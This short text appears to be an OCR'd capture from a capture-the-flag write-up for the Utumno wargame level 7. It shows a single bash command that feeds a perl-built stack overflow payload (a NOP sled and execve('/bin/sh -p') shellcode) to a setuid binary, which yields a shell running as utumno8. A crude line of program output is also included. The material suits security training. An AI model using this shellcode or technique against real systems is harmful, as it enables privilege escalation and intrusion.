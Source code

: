 ```bash
utumno7@utumno:/utumno$ /utumno/utumno7 $(perl -e 'print "AAAA" . "\xb0\xd1\xff\xff" . "\x90"x99 . "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x66\x68\x2d\x70\x89\xe1\x50\x51\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80" . "\x9c\xd1\xff\xff"')
lol ulrich && fuck hector
$ whoami
utumno8
```